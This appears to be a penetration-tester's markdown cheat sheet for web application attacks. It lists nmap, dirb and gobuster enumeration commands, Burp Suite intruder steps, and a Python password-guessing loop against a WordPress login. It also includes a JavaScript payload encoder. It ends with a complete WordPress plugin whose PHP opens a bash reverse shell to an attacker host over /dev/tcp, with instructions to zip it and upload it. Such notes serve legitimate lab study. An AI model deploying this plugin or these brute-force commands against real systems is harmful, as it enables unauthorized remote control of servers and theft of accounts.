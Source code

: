 # WebApps enum

OWASP top ten: https://owasp.org/www-project-top-ten/

## Nmap

```
sudo nmap -p80 -sV $IP
sudo nmap -p80 --script=http-enum $IP
```

## Wappalyzer

Technology stack: https://www.wappalyzer.com/

## Sitemaps

```
http://ip/robots.txt
http://ip/sitemap.xml
```

## Dirb

```
dirb http://$IP
```

## Gobuster 

### Directory brute force

Documentation on Kali: https://www.kali.org/tools/gobuster/
S1ren: https://sirensecurity.io/blog/common/
```
gobuster dir -u $IP -w /path/to/wordlist.txt
```
Kali wordlists: `/usr/share/wordlists/dirb/*.txt`
Daniel Miessler wordlists: https://github.com/danielmiessler/SecLists

### Enumerating APIs

Make a pattern file `pattern.txt`:
```
{GOBUSTER}/v1
{GOBUSTER}/v1
```
then fuzz the placeholder with a wordlist:
```
gobuster dir -u http://ip:port -w /usr/share/wordlists/dirb/big.txt -p pattern.txt
```
Curl with headers: `curl -i`

Post json data:
```
curl -d '{"username":"someuser","password":"somepass"}' -H 'Content-Type: application/json' http://$IP/path/to/login/page.html
```

## Burp Suite

Proxy > Proxy Settings > Proxy Listeners\
Firefox > Connection Settings > Configure Proxy > Manual > 127.0.0.1\
Proxy > HTTP history > right-click "Send to repeater"\
Repeater > Send\
`cat /etc/hosts # add the website`\
Proxy > HTTP history > right-click "Send to intruder"\
Intruder > Clear/Add > Payload > Paste > paste a wordlist > check the return code

## Python manual password attack

Using the `requests` module: https://requests.readthedocs.io/en/latest/api
```
import requests
for i in ['test', 'pass', 'password']:
    r = requests.post('http://offsecwp/wp-login.php', data={'login_field': 'user_to_hack', 'password_field': i})
    print(r.status_code, len(r.content))
```

## Javascript

Shortcuts:
- console: `^C+^S+k`
- devtools: `^C+^S+i`

```
function myFunc(a,b){
  return a+b
  }
let c = myFunc(n1,n2)

function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

Minified Javascript: https://jscompress.com/

## WordPress reverse shell plugin

https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell

Php file:
```
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/$AttackerIp/$AttackerPort 0>&1'");
?>
```
then zip it: `zip revsh-wp-plugin.zip revsh-wp-plugin.php` \
and upload it on WordPress.
